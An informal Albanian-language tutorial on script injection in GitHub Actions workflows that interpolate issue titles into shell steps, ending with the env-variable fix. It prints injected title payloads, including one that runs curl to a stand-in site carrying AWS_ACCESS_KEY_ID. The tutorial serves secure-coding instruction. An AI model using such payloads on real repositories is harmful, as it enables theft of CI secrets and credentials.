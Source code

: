 Nje shmebull I nje workflow te thjesht, qe mundet me u perdor script injection Brenda jobi tend

Script-injection.yml



Script Injection
Bahen inject ne workflowin qe ti e perdor
Psh ka workflow qe bahen run, kur nje Issue I ri krijohet
Mundesh me kriju nje Issue me diqka specifike edhe me e injektu workflowin tend

Third Party & Steal your Secrets

Ka ne marketplace Third Party Actions qe ti lexon dhe eksporton paswordin, kto qe jan te pa verifikume untrusted authors 


E bajm ni new pull request me tekstin

Test Diqka Palidhje

E shohim qe punon gjithqka ne rregull

E bajm testin e dyt

a”; echo Got your password”

Kjo ta shfaq vetem Got you password

Pse ??
Sepse titulli qysh e kemi shkru kto thojzat e para “ ky ja mshel double quotes variables issue_tittle 

Jam tu ja vendos tek vetem a ,    issue_tiitle=”a”

Edhe me kto dy thojzat ;   po ja vendos ni komand tjeter qfare dush me e ekzekutu Brenda workflowit , edhe ja vendos ni thonjz nfund qe me mendu qe u mshel “

Ndersa output asht vetem Got you password
E bajm pak ma te fort komanden me curl, qe me i dergu paswordin dikun tjeter

a“; curl http://my-website.com?abc=$AWS_ACCESS_KEY_ID

Nese une e di qe je tu e perdor kete variable ne workflow, ikuu  me extrat edhe e dergoj ne website 

Nese ka te dhana mujna me ja marr eedhe mi ba ekstrakt 


E permirsojm pak skripten sepse titulli po na ekzekutohet si komand brenda workflowit, qe asht e rrezikshme


Nese e modifikojm pak
env:
          TITLE: ${{ github.event.issue.title }}

E minimizojm problemin qe tituli me u ekzekutu edhe me u perdor ne shell

Nese e bajm tash run ket komanten

a”; echo Got your password”

Nuk na del ne output Got your password



